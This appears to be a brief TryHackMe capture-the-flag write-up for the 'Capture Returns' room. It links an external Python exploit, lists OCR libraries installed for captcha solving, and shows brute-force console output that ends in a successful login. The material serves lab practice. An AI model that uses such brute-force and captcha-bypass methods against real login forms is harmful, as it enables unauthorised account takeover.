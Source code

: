 <p>July 15, 2025 - Day 435</p>
<h1>Capture Returns</h1>
<p><em>The developers have improved their login form since last time. Can you bypass it?</em>.<br>
https://tryhackme.com/room/capturereturns<br>
<p>Capture Returns is part of my 435ᵗʰ day on TryHackMe. It is classified as a hard-level challenge, and you can join it for 🆓 using your own virtual machine with openVPN or TryHackMe´s AttackBox if you are subscribed. Click the link below, and let's get started!</p>

<br>

<img width="1897" height="376" alt="image" src="https://github.com/user-attachments/assets/9695822e-67ca-4164-ba87-1073c0b6f812" />

<br>

<p>
  
  
- used the Python code crafted here: https://github.com/Kript0r3x/caturereturns/tree/main<br>
- substituted TargetIP<br>
- installed some modules
- renamed usernames.txt --> usernme.txt<br>
- renamed passwords.txt --> password.txt</p>


```bash
:~/returns# ls
exploit.py  password.txt  response.txt  username.txt
```

```bash
pip3 install Pillow
...
pip3 install opencv-python
...
pip3 install pytesseract
```

```bash
:~/returns# python3 exploit.py
...
945 Trying ------------------ Username ----------: sherri, ----------- password: nancy
946 Trying ------------------ Username ----------: sherri, ----------- password: nugget
947 Trying ------------------ Username ----------: sherri, ----------- password: bintang
948 Trying ------------------ Username ----------: sherri, ----------- password: judith
949 Trying ------------------ Username ----------: sherri, ----------- password: forever1
950 Trying ------------------ Username ----------: sherri, ----------- password: shirley
951 Trying ------------------ Username ----------: sherri, ----------- password: inferno
952 Trying ------------------ Username ----------: sherri, ----------- password: delete
953 Trying ------------------ Username ----------: sherri, ----------- password: 8675309
954 Trying ------------------ Username ----------: sherri, ----------- password: fearless
955 Trying ------------------ Username ----------: sherri, ----------- password: amigos
956 Trying ------------------ Username ----------: sherri, ----------- password: april
...
Login successful.
```

```bash
:~/returns# cat response.txt
```
